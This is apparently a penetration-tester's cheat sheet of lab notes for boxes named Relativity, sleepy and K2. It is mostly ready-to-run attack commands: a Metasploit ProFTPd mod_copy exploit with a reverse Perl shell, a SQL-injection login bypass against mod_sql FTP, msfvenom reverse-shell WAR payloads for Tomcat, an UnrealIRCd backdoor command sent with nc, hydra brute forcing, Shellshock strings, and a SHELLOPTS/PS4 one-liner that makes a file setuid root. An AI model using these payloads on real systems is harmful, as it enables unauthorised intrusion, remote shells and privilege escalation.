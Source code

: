 # ProFTPd

## ProFTPd 1.3.5, mod_copy
	Any Linux server running Proftp version < 1.3.5 are vulnerable.
	https://raw.githubusercontent.com/t0kx/exploit-CVE-2015-3306/master/exploit.py
	https://www.exploit-db.com/exploits/36742
	https://www.exploit-db.com/exploits/36803
	use exploit/unix/ftp/proftpd_modcopy_exec
	set RHOST 192.168.6.154
	set SITEPATH /var/www/html/test
	set TARGETURI /test/
	set PAYLOAD cmd/unix/reverse_perl
	set LHOST 192.168.6.138
	run

	id


## ProFTPD 1.2.8 - 1.2.9 mod_sql
	
Boxes : Relativity

	└─$ ftp 172.16.16.128
	Connected to 172.16.16.128.
	220 Welcome to Relativity FTP (mod_sql)
	Name (172.16.16.128:kali): %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 
	331 Password required for %').
	Password:1  <== WHY ?
	230 User %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # logged in.
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> ls 
	200 PORT command successful


# vsftpd

- The default location for pub ftp on CentOS : __/var/ftp/pub/__

# Tomcat

Boxes : sleepy

- Default : 
	1. _/etc/tomcat/tomcat-users.xml_
	2. _/etc/tomcat/server.xml_
- Shell
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.1 LPORT=1234 -f war > shell.war
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.20.128 LPORT=4444 -f war -o evil.war



# UnrealIRCd 3.2.8.1

Boxes : Relativity

	echo "AB;<command>" |nc <IRCd address> <port>

# HTTP auth basic

	# Brute force
	$ hydra -l admin  -p darkweb2017-top100.txt  a.b.c.d http-get


# Bash [v1.14 - v4.3 ]


## Shellshock bash [v1.14 - v4.3 ]

Boxes : sleepy

	env var='() { ignore this;}; echo VULN' bash -c /bin/true  
	env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
	env X=' () { }; echo hello' bash -c 'date'
	shellshocker='() { echo You are vulnerable; }' bash -c shellshocker

	curl -A " () { :; }; echo VULN " {URL}
	telnet <serveur_internet_sous_notre_controle> 8888
	# export function
	bash-4.2$ function /usr/bin/sl () { /bin/bash; }
	bash-4.2$ export -f /usr/bin/sl

## SHELLOPTS and PS4

Boxes : K2

    bash-4.2$ env -i SHELLOPTS=xtrace PS4='$(chown root:root /tmp/egg && chmod +s /tmp/egg)' /bin/sh -c '/usr/local/bin/whoisme'



# nginx

- Default path
	
	/nginx/usr/share/nginx/html/

# Wordpress

- Theme twentynineteen : /var/www/html/wordpress/wp-content/themes/twentynineteen/

